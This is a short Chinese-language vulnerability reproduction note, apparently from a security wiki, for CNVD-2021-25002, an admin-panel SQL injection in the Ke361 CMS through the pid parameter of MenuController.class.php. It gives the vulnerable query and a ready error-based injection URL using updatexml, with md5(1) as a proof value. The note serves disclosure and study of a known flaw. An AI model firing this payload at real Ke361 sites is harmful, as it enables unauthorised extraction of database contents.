

# Ke361 MenuController.class.php 后台SQL注入漏洞 CNVD-2021-25002

## 漏洞描述

Ke361 MenuController.class.php文件 index() 函数中的pid参数存在 SQL注入漏，导致攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>Ke361</a-checkbox></br>

## 环境搭建

<a-checkbox checked>https://gitee.com/jcove/ke361</a-checkbox></br>

## 漏洞复现

CMS产品页面


存在漏洞的文件为 `Application/Admin/Controller/MenuController.class.php`


Get 传参 pid 传入SQL语句

```php
SELECT `id`,`title`,`pid`,`sort`,`url`,`hide`,`tip`,`group`,`is_dev`,`status` FROM `ke_menu` WHERE (id=1)
```

使用括号闭合语句，构造SQL注入

```php
/admin.php?s=/Menu/index/pid/1)%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```

